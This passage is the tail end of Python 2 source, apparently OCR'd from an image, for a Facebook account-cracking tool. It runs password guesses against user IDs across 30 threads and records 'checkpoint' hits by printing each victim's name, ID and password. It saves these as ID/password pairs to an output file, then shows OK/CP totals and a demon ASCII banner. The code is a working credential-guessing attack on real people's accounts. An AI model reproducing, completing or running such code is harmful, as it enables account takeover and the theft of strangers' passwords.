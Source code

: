 			                                                                                                       if 'www.facebook.com' in q["error_msg"]:
				                                                                                                   print '\x1b[1;96m[ ✖ ] \x1b[1;94mCheckpoint'
				                                                                                                   print '\x1b[1;96m[⚡⚡] \x1b[1;96mName \x1b[1;96m    : \x1b[1;96m' + b['name']
				                                                                                                   print '\x1b[1;96m[⚡⚡] \x1b[1;96mID \x1b[1;96m      : \x1b[1;96m' + user
				                                                                                                   print '\x1b[1;96m[⚡⚡] \x1b[1;96mPassword \x1b[1;96m: \x1b[1;96m' + pass9 + '\n'
				                                                                                                   cek = open("out/super_cp.txt", "a")
				                                                                                                   cek.write("ID:" +user+ " Pw:" +pass9+"\n")
				                                                                                                   cek.close()
				                                                                                                   cekpoint.append(user+pass9)		
											                              
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print "\033[1;96m≫ ──────────────────── ≪•◦ ❈ ◦•≫ ──────────────────── ≪" 
	print '\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;92mProcess Has Been Completed \033[1;97m....'
	print"\033[1;96m[❖] \033[1;92mTotal OK/\x1b[1;93mCP \033[1;91m: \033[1;92m"+str(len(oks))+"\033[1;97m/\033[1;93m"+str(len(cekpoint))
	print("\033[1;96m[❖] \033[1;92mCP File Has Been Saved \033[1;91m: \033[1;97mout/checkpoint.txt")
	print """
\033[1;97m  _dMMMb._              .adOOOOOOOOOba.              _,dMMMb_
\033[1;97m dP'  ~YMMb            dOOOOOOOOOOOOOOOb            aMMP~  `Yb
\033[1;97m V      ~"Mb          dOOOOOOOOOOOOOOOOOb          dM"~      V
\033[1;97m          `Mb.       dOOOOOOOOOOOOOOOOOOOb       ,dM'
\033[1;97m           `YMb._   |OOOOOOOOOOOOOOOOOOOOO|   _,dMP'
\033[1;97m      __     `YMMM| OP'~"YOOOOOOOOOOOP"~`YO |MMMP'     __
\033[1;97m    ,dMMMb.     ~~' OO     `YOOOOOP'     OO `~~     ,dMMMb.
\033[1;97m _,dP~  `YMba_      OOb  👹 `OOO'   👹  dOO      _aMMP'  ~Yb._
\033[1;97m
\033[1;97m             `YMMMM\`OOOo     OOO     oOOO'/MMMMP'
\033[1;97m     ,aa.     `~YMMb `OOOb._,dOOOb._,dOOO'dMMP~'       ,aa.
\033[1;97m   ,dMYYMba._         `OOOOOOOOOOOOOOOOO'          _,adMYYMb.
\033[1;97m  ,MP'   `YMMba._      OOOOOOOOOOOOOOOOO       _,adMMP'   `YM.
\033[1;97m  MP'        ~YMMMba._ YOOOOPVVVVVYOOOOP  _,adMMMMP~       `YM
\033[1;97m  YMb           ~YMMMM\`OOOOI`````IOOOOO'/MMMMP~           dMP
\033[1;97m   `Mb.           `YMMMb`OOOI,,,,,IOOOO'dMMMP'           ,dM'
\033[1;97m     `'                  `OObNNNNNdOO'                   `'
\033[1;97m                           `~OOOOO~'   
"""
	raw_input("\n\033[1;96m[\033[1;97mBack\033[1;96m]")
	menu()

if __name__ == '__main__':
	login()

